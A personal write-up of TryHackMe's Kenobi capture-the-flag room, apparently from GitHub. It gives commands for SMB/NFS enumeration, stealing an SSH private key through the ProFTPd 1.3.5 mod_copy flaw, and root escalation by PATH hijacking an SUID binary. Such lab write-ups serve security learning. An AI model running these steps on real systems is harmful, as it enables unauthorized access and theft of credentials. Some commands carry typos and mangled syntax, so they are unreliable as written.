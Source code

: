 # Kenobi CTF Writeup

## About the Capture the Flag 
Name: Kenobi\
Difficulty: Easy\
Author: [TryHackMe](https://tryhackme.com/p/tryhackme)\
Link: [LINK TO CTF](https://tryhackme.com/room/kenobi)

## Start of writeup

### Introduction
The Kenobi Capture the Flag challenge is a fun and interesting CTF that is classed as easy on the TryHackMe website. According to the creator of this CTF, it covers manipulating a vulnerable version of ProFTPD to gain access and escalating your privileges to root via an SUID binary. Kenobi is a character from Star Wars so I am expecting many references throughout!

### Goal of the CTF
The CTF consists of three parts: 

*Enumerating Samba for shares;
*Gain initial access with ProFTPd;
*Privilege Escalation with Path Variable Manipulation

The room has multiple questions that need to be answered to get a 100% completion.

### Part 1 - Enumerating Samba for shares
In the first part of the CTF we're going to enumerate Samba. This is done with a special NMAP scan command as instructed in the CTF itself. This is used to answer the first question asked.

```python
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>
```

![nmap445.jpg](./images/nmap445.jpg)

>"Using the nmap command above, how many shares have been found?" Answer: 3

Now that we know how much shares there are, and what they're named, we can try and connect to one. The room sends us in the right direction by telling us we need to the anonymous share. We do this by typing out the following command:

```python
smbclient //<ip>anonymous
```

![smb.jpg](./images/smb.jpg)

As shown in the console, a promt for a password is given but by simply pressing enter, you can skip by this. A simple "ls" command shows us the answer to the second question by displaying the file that we can see.

>"Once you're connected, list the files on the share. What is the file can you see?" Answer: log.txt

The next step is to get hold of this file and see what's inside of it. This is done by a simple smbget command which simply grabs the file and downloads it for you. 

```python
smbget -R smb://<ip>/anonymous
```

This file contains a lot of interesting information like how a SSH key is generated for Kenobi and information about the ProFTPD server running on port 21, which answers the next question.

>"What port is FTP running on?" Answer: 21

The next and final step for this part of the CTF is performing a NMAP scan to see the mount being used to a network file system. The command used for this is also given by the author of the room. By executing this command we get answer to the final question of this part of the CTF.

```python
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>
```

![nmap2.jpg](./images/nmap2.jpg)

>"What mount can we see?" Answer: /var

### Part 2 - Gain initial access with ProFTPd
In this step we're going to try to gain access to the system over FTP on port 21. After doing the original NMAP scan it showed that we're dealing with FTP on port 21 with the ProFTPd software running, with version 1.3.5. To find a weakness in this version of the software, we're going to repeat the steps that we done in the "Basic Pentest: 1" and use searchsploit to find a weakness in the system. After performing that command we can answer the first two questions:

>"What is the version?" Answer: 1.3.5

>"How many exploits are there for the ProFTPd running?" Answer: 4

The search shows four weaknesses, the exploit we're going to target is the mod_copy module. The module implements two commands that are used to copy files from one place to another on the server it's being hosted on. Anyone can leverage these commands to copy files from any part of the filesystem. This is done by a simple NetCat command with the target ip and the port you wanna target, in this case 21.

```python
nc <ip> 21
SITE CPFR /home/enobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![nc21.jpg](./images/nc21.jpg)

The reason we moved the id_rsa file to /var is because it's mounted, as we discovered in part 1. From this point its simple to copy the directory to our own machine and use the ssh key that we obtained to access the system through ssh. This is a pretty simple process done with only a few simple commands:

```python
mkdir /mnt/kenobiNFS
mount <ip>/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

```python
cp /mnt/kenobiNFS/tmp/id_rsa
chmod 600 id_rsa
ssh -i id_rsa kenobi@<ip>
```

After you manage to gain access using SSH, you'll be able to do a simple "ls -la" command and will see the user.txt file which contains the answer to the last question of this part.

>"What is Kenobi's user flag?" Answer: cat user.txt

### Part 3 - Privilege Escalation with Path Variable Manipulation
The third and final part of this CTF involved the usage of SUID. We're tasked with finding a file that's out of the ordinary for the first question of this part. The author tells us to execute a command which will answer the question, it returns a list of several binaries. 

```python
find / -perm -u=s -type f 2>/dev/null
```

The binary that stands out the most is the /usr/bin/menu binary. The reason being is that menu isn't a known service that is found on Linux systems, you need to have some Linux knowledge for this. If this has been created by the creator of this system, its very possible this binary contains errors and escalation privileges.

>"What file looks particularly out of the ordinary?" Answer: /usr/bin/menu

>"Run the binary, how many options appear?" Answer: 3

The step after this is thoroughly described in the room itself, quoting the author of the CTF: "We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!" This is done with the following commands:

```python
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

The final step is using cat on the root.txt file and you've just completed the CTF by answering the last question!

>"What is the root flag (/root/root.txt)?" Answer: cat root.txt

### Conclusion
My thoughts on this CTF is that it was very useful. It thought us new techniques and it had us reapply old techniques that we learned in previous CTFs. The guidance throughout the CTF was nice at times but it did felt like I was reading a writeup more than being offered a challenge. All in all it's a good CTF to try out and the rating easy definitely applies here. Good luck and have fun with this CTF!